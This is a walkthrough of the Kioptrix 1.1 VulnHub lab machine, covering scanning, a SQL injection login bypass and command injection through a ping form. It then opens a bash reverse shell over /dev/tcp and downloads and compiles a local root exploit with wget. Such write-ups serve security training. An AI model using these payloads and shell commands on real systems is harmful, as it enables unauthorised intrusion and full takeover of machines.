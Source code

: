 # Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `netdiscover -i eth0 -r 10.0.2.0/24` to find the IP address of the vulnerable machine. We scan the local subnet because we know that VirtualBox assigns IPs in that subnet, but the command can be changed to be `/12` or something else depending on the range you wish to scan. The arguments to the `netdiscover` command specify that the network device `eth0` should be used for sniffing for ARP packets, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.

![](images/ifconfig.png "ifconfig shows us that our attacker's IP address is 10.0.2.5")

![](images/netdiscover.png "netdiscover -i eth0 -r 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

`netdiscover` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.4`, because VirtualBox typically uses the `08:00:27` MAC address prefix. After `ping`ing both of the addresses, it is determined that `10.0.2.4` is the target, because it replies to the pings.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.4` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.4`, which will just tell us the services that are running.

![](images/nmap.png "nmap -sV 10.0.2.4 shows us which services are running on the machine")

We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.

![](images/openssh.png "searchsploit openssh shows us the available exploits for OpenSSH")

Because we didn't have any luck with port 22, we'll move on to considering the next one on the list, port 80. Since http is running on this port, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.4` in Firefox gives us a login screen for remote system administration. This seems like a promising attack vector.

![](images/login.png "http://10.0.2.4 loaded in Firefox")

Since MySQL is also running on the target machine, it's likely that this login form is using SQL, and we can check to see if it's vulnerable to an SQL injection. A simple login SQL query would be something like `SELECT id FROM Users WHERE Username = 'InputUsername' AND Password = 'InputPassword'`, so we can manipulate the username and password parameters to get a valid SQL statement that will let us log in. If we use `' OR ''='` for both the username and the password, then the SQL query becomes `SELECT id FROM Users WHERE Username = '' OR ''='' AND Password = '' OR ''=''`, which will essentially check if `''=''` evaluates to true, which it does, allowing us to bypass proper authentication. This will log us in as the first user in the user table, and we now have access to the administrative web interface.

![](images/console.png "Using ' OR ''=' for both the username and password logs us in to the admin console")

This interface provides a text box where we can input an IP address and the target will ping it and provide the results for us.

![](images/ping.png "Result of putting 8.8.8.8 into the text box and submitting")

Interestingly enough, the results that are provided seem to be the same as if the Unix command `ping -c 3 8.8.8.8` was used. Could it be possible that the web interface is just throwing what we type into the text box into the command and executing it on the server? Let's test out this theory by putting `8.8.8.8; whoami` into the field. This will allow us to run the `whoami` command after the server pings 8.8.8.8, and if our hypothesis is correct, we'll see the user that the web interface is running the command as.

![](images/whoami.png "Result of putting 8.8.8.8; whoami into the text box and submitting")

Looks like the idea was right. We can see that after the ping results, there's a line for "apache," meaning that this is who the commands are running under, and that we have remote command execution on the machine. However, we don't have root access yet, which is our main objective. Additionally, our access is limited to just sending commands, we don't have a completely interactive way of communicating with the target machine. These issues are what we will solve in the next step.

## Elevating access

Let's try to achieve an interactive way to talk to the target machine. Since we can execute a command with the administrative web console, we can use `nc` on our attacking machine and `bash` on the console to start an interactive session. The command `nc -lvp 4444` on our attacking system allows us to listen on port 4444 for incoming connections and provide verbose output. After this is listening, we can submit `; bash -i >& /dev/tcp/10.0.2.5/4444 0<&1` into the text box and this will connect our two machines with an interactive session. The arguments to the `bash` command will run a new interactive instance of bash with standard output and standard error being redirected to a TCP connection to the chosen IP address and port, in this case our attacker's VM and the port that `nc` is listening on, and that standard input will be read through this connection.

![](images/connected.png "The two machines now have an interactive session")

After submitting this, the web browser will display a constantly loading page and our `nc` listener will now have a `bash` shell waiting for us.

Now that we're connected to the target machine, we need to find a way to gain root access, as the apache user we're logged in as doesn't have sudo or root privileges by default. We're going to see what directory we're currently in with the `pwd` command, and we'll use `ls -l` to see if we're allowed to write to any files in our current directory. Then, we'll attempt to find out what specific operating system the target machine is running with `uname -a`, `lsb_release -a`, and `cat /etc/*-release` to see if there are any useful local exploits we can run.

![](images/info.png "Information gathered about our target system")

From the results of these commands, we can see that we're currently in the /var/www/html directory, where we are not allowed to write to any files, and that the target is running CentOS 4.5. We can use the `searchsploit` command again on our attacking machine to see if we can find any local privilege escalation exploits that we can use. Running `searchsploit centos local -o` will show all of the local exploits available for CentOS, with the `-o` flag allowing the exploit names to be fully shown. While it may not look pretty, it will help us find the exploit we want easier.

![](images/centos.png "searchsploit centos local -o shows us the available local exploits for CentOS")

We can see that there are a few local privilege escalation exploits to choose from, and after trying them all, I've found that exploits/linux/local/9545.c is the one that works best right out of the box. Now, we need to get the exploit loaded on the target machine.

Since the apache user can't write to the current directory it's in, we will use the /tmp directory, which can be written to and read by any user. A simple `cd /tmp` will take us there. We can then use the `wget` command to download the exploit source code from [exploit-db](https://www.exploit-db.com/raw/9542/ "The source code for the exploit we're using") onto the target. The specific command we'll use will be `wget --no-check-certificate http://www.exploit-db.com/raw/9542 -O exploit.c`, which will bypass certificate verification (you shouldn't do this unless you are convinced of the site's authenticity or you don't care about the validity of its certificate), and download the contents of the page into the exploit.c file.

Once the exploit is downloaded, we can use `gcc` to compile it because we just downloaded exploit source code written in C. After you compile the exploit with `gcc exploit.c`, there will be an executable file called a.out, and now you can run the exploit with `./a.out`. We can see that the exploit worked because our prompt symbol changed from `$` to `#`, and if we run `whoami`, we can see that we are now root!

![](images/escalation.png "Downloading and executing the exploit")
